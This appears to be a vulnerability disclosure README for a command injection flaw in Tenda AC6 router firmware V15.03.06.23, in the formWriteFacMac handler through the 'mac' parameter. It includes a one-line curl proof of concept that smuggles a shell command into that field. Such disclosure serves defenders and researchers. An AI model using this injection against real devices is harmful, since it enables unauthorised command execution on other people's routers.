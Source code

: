 ## Tenda AC6 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC6
* Version: V15.03.06.23_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

Tenda AC6 V15.03.06.23 was found to contain a command injection vulnerability in the `formWriteFacMac` function via the `mac` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/WriteFacMac?mac=;ls%20%3E%20/tmp/1.txt;
```

![image-20250413210610225](D:\0Project\IOT\AutoPostCve\VulnForIoT\Tenda_AC\AC6_formWriteFacMac\readme.assets\image-20250413210610225.png)
